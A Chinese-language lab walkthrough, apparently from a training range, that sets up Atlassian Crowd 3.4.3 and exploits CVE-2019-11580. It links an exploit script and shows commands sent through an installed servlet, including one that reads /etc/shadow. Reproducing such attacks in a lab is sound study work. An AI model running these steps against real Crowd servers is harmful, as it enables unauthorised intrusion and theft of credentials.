 ```yaml
---
description: CVE-2019-11580
---
```


# Atlassian Crowd RCE漏洞分析

## 【原理】

Atlassian Crowd和Crowd Data Center在其某些发行版本中错误地启用了pdkinstall开发插件。从而使攻击者可以在未授权访问的情况下对Atlassian Crowd和Crowd Data Center安装任意的恶意插件，攻击者借用此漏洞安装的恶意插件可以在目标服务器上执行任意命令，从而获得服务器权限。

## 【工具】

* Atlassian Crowd
* Python

## 【步骤】

1.点击启动场景按钮，等待场景启动完成后，通过靶标接入协议进入漏洞标靶

2.下载漏洞影响版本代码，这里我们选择3.4.3版本

```javascript
https://product-downloads.atlassian.com/software/crowd/downloads/atlassian-crowd-3.4.3.zip
```

3.在Ubuntu中安装好JDK环境，病配置好JAVA\_HOME和JRE\_HOME等环境变量，如下所示。

```javascript
JAVA_HOME=/usr/share/jdk1.8.0_221/
JRE_HOME=/usr/share/jdk1.8.0_221/jre
CLASS_PATH=.:$JAVA_HOME/lib:$JRE_HOME/lib  
PATH=$PATH:$JAVA_HOME/bin:$JRE_HOME/bin  
export JAVA_HOME JRE_HOME PATH
```

重启系统使用java和javac命令测试即可。

4.将漏洞代码文件解压之后移动到/var目录下

```text
hacker@hacker:~$ su
密码： 
root@hacker:/home/hacker# ls
examples.desktop  公共的  模板  视频  图片  文档  下载  音乐  桌面
root@hacker:/home/hacker# cd 桌面
root@hacker:/home/hacker/桌面# ls
atlassian-crowd-3.4.3
root@hacker:/home/hacker/桌面# mv atlassian-crowd-3.4.3 /var/
root@hacker:/home/hacker/桌面# cd /var
root@hacker:/var# cd atlassian-crowd-3.4.3/
root@hacker:/var/atlassian-crowd-3.4.3# pwd
/var/atlassian-crowd-3.4.3
```

![image-20210224095601862](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210224095601862.png)

5.修改crowd-init.properties 配置文件，设置主目录

```javascript
vi /var/atlassian-crowd-3.4.3/crowd-webapp/WEB-INF/classes/crowd-init.properties
```

![image-20210224103227616](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210224103227616.png)

保存退出~

6.然后回到环境主目录中启动环境 ,执行启动命令即可

```javascript
./start_crowd.sh
```

![image-20210224100839612](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210224100839612.png)

7.浏览器访问环境链接

```javascript
http://ip:8095/
192.168.166.18:8095
```

![image-20210224100913405](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210224100913405.png)

8.点击安装，在中间需要输入license

![image-20210224103323767](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210224103323767.png)

去官网注册个账号获取一个月的试用期即可:[https://my.atlassian.com/product](https://my.atlassian.com/product)

![image-20210224104154928](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210224104154928.png)

![image-20210224104322993](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210224104322993.png)

![image-20210224104400575](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210224104400575.png)

![image-20210224104416819](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210224104416819.png)

![image-20210224104534037](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210224104534037.png)

![image-20210224105640528](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210224105640528.png)

9.安装完成之后即可登录

![image-20210224105716262](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210224105716262.png)

![image-20210224105757949](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210224105757949.png)

10.下载漏洞利用脚本：[https://gitee.com/Harveysn0w/CVE-2019-11580](https://gitee.com/Harveysn0w/CVE-2019-11580)

![image-20210224111451218](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210224111451218.png)

11.使用脚本测试漏洞

```text
cd Documents/CVE-2019-11580/exp
python CVE-2019-11580.py http://192.168.166.18:8095
```

![AE0B56BA2D0321DA8A1E93E521B9CAD5](https://gitee.com/Harveysn0w/mac-note_img/raw/master/AE0B56BA2D0321DA8A1E93E521B9CAD5.jpg)

12.通过浏览器访问链接测试其他命令：

```text
http://192.168.166.18:8095/crowd/plugins/servlet/exp?cmd=cat%20/etc/shadow
```

![image-20210224112346276](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210224112346276.png)

漏洞利用成功

13，getshell

```text
curl "http://192.168.166.18:8095/crowd/plugins/servlet/exp?cmd=whoami"
```

![image-20210224112532671](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210224112532671.png)

